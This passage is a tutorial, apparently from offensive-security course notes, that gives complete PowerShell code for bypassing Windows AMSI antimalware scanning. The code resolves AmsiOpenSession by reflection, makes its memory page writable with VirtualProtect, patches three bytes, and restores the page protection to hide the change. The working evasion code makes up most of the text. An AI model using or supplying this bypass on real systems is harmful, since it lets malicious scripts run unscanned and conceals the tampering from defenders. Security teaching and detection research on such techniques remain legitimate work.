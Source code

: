 ## Practical
To implement the attack, we'll need to perform three actions. We'll obtain the memory address of _AmsiOpenSession_, modify the memory permissions where _AmsiOpenSession_ is located, and modify the three bytes at that location.

In order to resolve the address of _AmsiOpenSession_, we would typically call _GetModuleHandle_ to obtain the base address of AMSI.DLL, then call _GetProcAddress_. We previously used reflection to accomplish this with the in-memory PowerShell shellcode runner with the following code:
```Powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$funcAddr
```
This completes our first task i.e. find the memomry address of _AmsiOpenSession_

Now we must consider memory protections.
In Windows, all memory is divided into 0x1000-byte _pages_. A memory protection setting is applied to each page, describing the permissions of data on that page.
As it stands, the problem is that code pages are set to _PAGE_EXECUTE_READ_ which means they're not writable.
Since we want to overwrite three bytes on this page, we must first change the memory protection.
This can be done with the Win32 [_VirtualProtect_](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) API.
The API takes the following arguments:
1. lpAddress - the page address
2. dwSize - size of the area we wish to modify
3. flNewProtect - we want to set this to _PAGE_EXECUTE_READWRITE_ (0x40)
4. lpflOldProtect - variable where the current memory protection will be stored by the operating system API

The output value is a pointer to a DWORD. In C# we can specify this as a reference with the _MakeByRefType_ method, which can be used together with the _ref_ keyword when invoking the function.

We call and invoke the function as follows:
```Powershell
function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

Finally we will use the _Copy_ method to overwrite the required 3 bytes represented as 0x48, 0x31, 0xC0 from a managed array (_$buf_) to unmanaged memory:
```Powershell
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```

As an added task, we'll use _VirtualProtect_ again and specify the previous memory protection value 0x20 to hide our tracks:
```Powershell
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

Running the script, we are able to bypass AMSI.

